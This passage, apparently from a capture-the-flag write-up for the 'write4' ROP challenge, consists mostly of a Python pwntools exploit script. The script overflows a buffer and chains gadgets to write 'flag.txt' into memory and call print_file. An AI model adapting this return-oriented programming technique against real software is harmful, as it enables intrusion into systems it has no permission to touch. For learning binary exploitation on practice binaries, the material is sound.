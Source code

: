 
Coded up this gives the following exploit.

```python
#!/usr/bin/python3

from pwn import *

pop_gaget       = p64(0x0000000000400690)
write_gaget     = p64(0x0000000000400628)
pop_rdi         = p64(0x00400693)
write_loc       = 0x601028
print_file      = p64(0x00400510)
back_junk       = b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
def string_place(write_string, write_start):
        returnPayload = b""
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                #destination
                returnPayload += p64( write_start+ (i))
                temp = write_string[i:i+8] 
                temp += b"\x00" * ( 8 - len(temp) )
                returnPayload += temp
                returnPayload += write_gaget

        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload


io = process('./write4')

# This is the vaddr of system
# First return to the location of the pop rdi
# 4   0x00400510 GLOBAL FUNC       print_file
#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk
```